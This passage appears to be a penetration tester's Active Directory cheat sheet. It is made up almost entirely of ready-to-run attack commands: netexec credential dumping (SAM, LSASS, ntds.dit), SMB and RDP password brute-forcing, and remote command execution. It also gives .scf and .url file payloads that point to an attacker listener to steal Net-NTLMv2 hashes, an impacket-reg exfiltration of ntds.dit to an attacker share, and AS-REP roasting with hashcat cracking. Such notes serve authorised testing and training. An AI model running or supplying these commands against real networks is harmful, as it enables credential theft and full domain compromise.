 ```shell
# Bloodhound collection
nxc ldap <dc-ip> -u user -p pass --bloodhound --collection All

# cmd execution
nxc winrm ip -u user -p pass -X <cmd>

# sensitive data dumping, if user is admin
nxc smb ip -u user -p pass --sam
nxc smb ip -u user -p pass -M lsassy
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil  # dumps ntds.dit and SYSTEM and parse these using secretsdump
# enumerate loggedon-users if you have admin rights on that machine then impersonate as that user
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --loggedon-users

# bruteforcing
crackmapexec/netexec smb <target-ip> -u <username> -p wordlist.txt -d corp.co --continue-on-success
netexec rdp <ip-range> -u user -p pass -d corp.com --continue-on-success --screenshot --screentime <time> # --nla-screenshot

```
### 💥Exploitation

[AD Pentesting Notes](https://exploit-notes.hdks.org/exploit/windows/active-directory/)
Check: https://www.netexec.wiki/ for more details

in case of "`RB_AP_ERR_SKEW(Clock skew too great)`" error synchronize the time of kali with DC using [_ntpdate_](https://en.wikipedia.org/wiki/Ntpdate) or [_rdate_](https://en.wikipedia.org/wiki/Rdate)
```shell
ntpdate <dcip>
rdate -s <dcip>
```
#### URL File Attack
If you are able to upload a file to an SMB share. In that case, you can try uploading a `.scf` or `.url` file to capture the victim's Net-NTLMv2 hash on your attacking machine. After that, you can also attempt client-side attacks by uploading files such as `.pdf`, `.docx`, or `.odt`.
```shell title:file.scf
[Shell]
Command=2
IconFile=\\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

```shell title:file.url
[InternetShortcut]
URL=\\[Listener-IP]\share
```

```shell
# we can also use ntlm_theft tool to create those files
python3 ntlm_theft.py -g lnk -s <attacker_listener_ip> -f vault
```
####  Backup operator
```shell
# Dumping ntds.dit through remote registry service
impacket-reg joe:'Flowers1'@172.16.238.10 backup -o '\\192.attckr.ip\share' # add the share in quotes otherwise error, also try adding domain.com/ in case of error
# Before the above host the smb share on the kali machine
impacket-smbserver share . -smb2support
```
#### AS-REP Roasting
```shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt
```